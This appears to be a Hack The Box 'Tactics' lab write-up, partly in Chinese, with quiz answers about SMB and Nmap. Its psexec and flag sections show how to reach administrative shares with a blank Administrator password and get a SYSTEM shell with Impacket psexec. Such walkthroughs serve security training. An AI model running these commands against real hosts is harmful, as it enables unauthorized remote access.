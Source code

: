 <center>Tactics</center>



[toc]







## Tactics

> Tactics







### 1. task

1. Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?

```shell
-Pn
```

2. What does the 3-letter acronym SMB stand for?

```shell
Server Message Block
```

3. What port does SMB use to operate at?

```shell
445
```

4. What command line argument do you give to `smbclient` to list available shares?

```shell
-L
```

5. What character at the end of a share name indicates it's an administrative share?

```shell
$
```

6. Which Administrative share is accessible on the box that allows users to view the whole file system?

```shell
C$
```

7. What command can we use to download the files we find on the SMB Share?

```shell
get
```

8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

```shell
psexec.py
```



### 2. Psexec 工具

> Psexec通过在远程系统的ADMIN$共享上上传一个随机命名的可执行文件来创建一个远程服务，然后将其注册为Windows服务。以此产生一个交互式shell，通过TCP端口445在远程Windows系统上执行。
> Psexec要求具有本地管理员或更高权限的用户的凭据（可以读取/写入ADMIN），验证成功后，将获取一个 NT AUTHORITY\SYSTEM shell 。
>
> [github](https://github.com/fortra/impacket.git)  [blog](https://blog.csdn.net/qq_44159028/article/details/121289328)
>
> Impacket 使用： [blog](https://www.cnblogs.com/ciyze0101/p/15315811.html)

```shell
git clone https://github.com/CoreSecurity/impacket.git

python3 -m pipx install .

# docker
docker build -t "impacket:latest" .
docker run -it --rm "impacket:latest"


# arch 
yay -S impacket

# debian 
sudo apt update
sudo apt install snapd
sudo snap install snapd
sudo systemctl restart snapd
sudo systemctl enable snapd
sudo snap install impacket

# 使用
impacket-命令
```

> 使用

```shel
impacket-psexec username:password@target_ip

# 由于Administrator账号是空密码，执行如下：
python3 psexec.py Administrator@10.129.251.55
```

![image-20241202165345939](./assets/image-20241202165345939.png)



### 3. flag

> 获取flag

```shell
nmap -sC -Pn IP
```

![image-20241202162102651](./assets/image-20241202162102651.png)

> 使用**`空密码列出Administrator账号下的共享`**

```shell
smbclient -L 10.129.251.55 -U Administrator
```

![image-20241202162201336](./assets/image-20241202162201336.png)

```shell
ADMIN$ --- 管理共享是由 Windows NT系列操作系统创建的隐藏网络共享，它允许系统管理员远程访问网络连接系统上的每个磁盘卷。这些共享不能被永久删除，但可以被禁用。
C$ --- C:\磁盘卷的管理共享。这是操作系统托管的地方。
IPC$ --- 进程间通信共享。通过命名管道用于进程间通信，不属于文件系统的一部分。
```

> 连接C$共享

```shell
smbclient \\\\IP\\C$ -U Administrator
```

![image-20241202162421731](./assets/image-20241202162421731.png)





